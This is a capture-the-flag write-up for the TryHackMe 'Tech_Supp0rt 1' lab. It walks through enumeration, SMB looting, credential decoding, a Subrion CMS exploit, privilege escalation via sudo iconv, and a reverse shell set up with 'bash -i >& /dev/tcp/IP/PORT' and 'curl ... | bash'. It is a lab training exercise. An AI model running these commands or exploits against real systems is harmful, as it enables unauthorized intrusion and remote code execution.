 #  Tech_Supp0rt 1 CTF writeup | Tryhackme.com

Hack a scammer's website and ruin their day.

First scan the ports with rustscan:


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_1.png)


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_2.png)

Ports:\
Open 10.10.197.14:22 - SSH\
Open 10.10.197.14:80 - HTTP\
Open 10.10.197.14:139 - NetBIOS\
Open 10.10.197.14:445 - SMB

Now let's inspect this IP in our browser.

![indexhtml](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/indexhtml.png)

It is a basic apache webserver welcome site, but there's probably more hidden underneath. Find it out with gobuster!

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/gobuster.png)

*/test* and */wordpress* are the directories we are looking for here so let's check both of them.

**TEST**\
![test](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/test.png)

Test is basically a static scammer site, can't really click anywhere. I've looked into the source code but besides the images not much seems to be here.
Let's try wordpress maybe we will find more useful stuff there.

**WORDPRESS**\
![wp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wordpress.png)

Okay so here we could browse all the tabs or be lazy and run gobuster. I did both.

By browsing this directory I found a wordpress admin login site and some Hello World comments by the user named: **support**

Gobuster basically confirmed this

`gobuster dir -u http://10.10.197.14/wordpress -w /usr/share/dirb/wordlists/common.txt -x php,html,txt,sh`

    /license.txt          (Status: 200) [Size: 19915]
    
    /readme.html          (Status: 200) [Size: 7345]
    
    /wp-admin             (Status: 301) [Size: 325] [--> http://10.10.197.14/wordpress/wp-admin/]
    
    /wp-includes          (Status: 301)[Size:328][-->http://10.10.197.14/wordpress/wp-includes/]

I did the same with /test but haven’t found anything useful there

At this point we hit a dead end, so our only remaining option is to check SMB shares and find something (hopefully).

![smb1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smbclient.png)

![smb2](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smb2.png)

Success! The first share didn't work but websvr had this interesting enter.txt.\
Cat this out.

`cat enter.txt`

    GOALS

    =====

    1)Make fake popup and host it online on Digital Ocean server
    2)Fix subrion site, /subrion doesn't work, edit from panel
    3)Edit wordpress website



    IMP
    ===
    Subrion creds
    |->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
    Wordpress creds
    |->

Cooked with magical formula suggests that we are dealing with a hashed pw here. First I tried crackstation and hashanalyzer but both attempts failed.\
Cyberchef on the other hand could work perfectly with.. the magic formula.

![chef](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/cyberchef.png)

That was easy, we found a password: **Scam2021**

The note left by the scammer will lead us to our next step if we take it literally. Let's navigate to */subrion/panel*

![subrion](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/subrion%20panel.png)

It is worth noting what version the CMS has. Probably it would be a good idea to search any vulnerabilities (if there are any).\
We found just what we needed:
https://www.exploit-db.com/exploits/49876

**THE EXPLOIT:**
As we already know the username and the password, using this script will be no big problem for us.

![python exploit](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/python%20exploit.png)

With whoami we see that we have user permissions, and an inconvenient shell. We can't really cd or use useful commands as we have no standard output.\
At least we can see what lies in the home directory and what users we have to deal with.

**scamsite** Is our guy.

![usr_scamsite](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/user_scamsite.png)


Ideally we should have a better shell, as this one doesn't operate that great. I used a bash reverse shell for that, while hosting the shell code `bash -i >& /dev/tcp/IP/PORT 0>&1` on a local python webserver.\


`curl <OUR IP>:8000/shell.sh | bash `


![rshell1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/bash%20reverse%20shell.png)

Now that we have a better shell we can run linpeas.sh from our computer:

![lp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wp_config_PW.png)

We have found suspicious info here. Remember user 'support'? Grab the PW and try to log in with SSH.\
`Use the following credentials:`

    scamsite
    ImAScammerLOL!123!


![sshlogin](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/login%20to%20SSH.png)

Now we are getting close.

`sudo -l` and we see our key to get the root.txt

    User scamsite may run the following commands on TechSupport:
        (ALL) NOPASSWD: /usr/bin/iconv
      
      
After searching it on GTFObins here's what we find:

`LFILE=file_to_read`
`iconv -f 8859_1 -t 8859_1 "$LFILE"`

![ROOT](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/ROOT..png)



get the root flag
##### author: Dániel Varkoly
